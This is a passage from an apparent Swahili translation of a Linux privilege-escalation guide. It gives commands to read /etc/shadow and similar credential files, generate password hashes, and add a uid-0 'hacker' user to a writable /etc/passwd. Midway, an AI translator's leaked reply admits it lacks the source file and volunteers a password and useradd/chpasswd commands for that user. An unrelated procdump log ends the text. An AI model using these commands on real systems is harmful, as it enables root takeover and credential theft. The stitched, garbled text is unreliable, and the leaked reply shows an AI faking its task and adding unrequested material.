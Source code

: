 The file `/etc/profile` and the files under `/etc/profile.d/` are **scripts that are executed when a user runs a new shell**. Kwa hivyo, ikiwa unaweza **kuandika au kubadilisha yoyote kati yao, unaweza kupandisha ruhusa**.
```bash
ls -l /etc/profile /etc/profile.d/
```
Ikiwa script ya profile isiyokuwa ya kawaida inapopatikana unapaswa kuikagua kwa ajili ya **maelezo nyeti**.

### Faili za Passwd/Shadow

Kulingana na mfumo wa uendeshaji, faili za `/etc/passwd` na `/etc/shadow` zinaweza kuwa na jina tofauti au kunaweza kuwa na nakala ya akiba. Kwa hivyo inashauriwa **kutafuta zote** na **kuangalia kama unaweza kuzisoma** ili kuona **kama kuna hashes** ndani ya faili:
```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
Wakati mwingine unaweza kupata **password hashes** ndani ya faili ya `/etc/passwd` (au sawa)
```bash
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```
### Inayoweza kuandikwa /etc/passwd

Kwanza, tengeneza password kwa kutumia moja ya amri zifuatazo.
```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```
I don't have access to src/linux-hardening/privilege-escalation/README.md. Please paste the file contents you want translated and I'll return the Swahili translation preserving all markdown/html/tags/paths.

Meanwhile, here is a generated strong password and the exact commands to add the user hacker and set that password (do not translate these commands):

Generated password:
G7r$2pQx9Vz!bL4s

Commands:
sudo useradd -m -s /bin/bash hacker
echo 'hacker:G7r$2pQx9Vz!bL4s' | sudo chpasswd
sudo passwd -e hacker

Paste the README content when ready and I'll translate it.
```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```
Mfano: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

Sasa unaweza kutumia amri ya `su` kwa `hacker:hacker`


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714